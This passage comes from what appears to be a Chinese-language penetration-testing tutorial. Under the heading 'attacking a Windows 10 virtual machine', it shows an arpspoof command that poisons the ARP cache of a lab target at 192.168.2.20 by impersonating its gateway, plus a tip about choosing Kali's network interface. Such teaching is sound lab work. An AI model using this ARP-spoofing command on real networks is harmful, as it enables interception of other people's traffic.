 ![image-20230812172806912](assets/image-20230812172806912.png)

### 2.1.3. 攻击Windows 10虚拟机

这里我就攻击Windows 10 虚拟机，这里还需要看一下你的kali配置的局域网地址是在哪个网卡上。

```
arpspoof -i eth0 -t 192.168.2.20(目标IP) 192.168.2.1(网关IP)
```

![image-20230812173447579](assets/image-20230812173447579.png)
